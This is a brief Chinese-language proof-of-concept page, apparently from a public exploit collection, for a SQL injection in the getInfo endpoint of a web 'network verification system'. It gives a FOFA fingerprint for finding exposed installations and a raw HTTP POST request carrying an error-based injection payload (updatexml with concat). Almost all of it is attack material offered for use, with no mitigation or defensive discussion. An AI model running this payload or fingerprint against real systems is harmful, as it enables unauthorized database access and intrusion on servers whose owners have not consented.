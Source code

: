 ## 网络验证系统getInfo参数存在SQL注入漏洞


## fofa
```
body="zhuya/js/base.js"
```

## poc
```
POST /index.php/api/Software/getInfo HTTP/1.1
Host: 
Content-Length: 0
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

data=123456&id=1 and updatexml(1,concat(0x7e,md5(123),0x7e),1)
```


![image](https://github.com/wy876/POC/assets/139549762/c0c54626-76ac-440a-97be-760bb17c61cb)
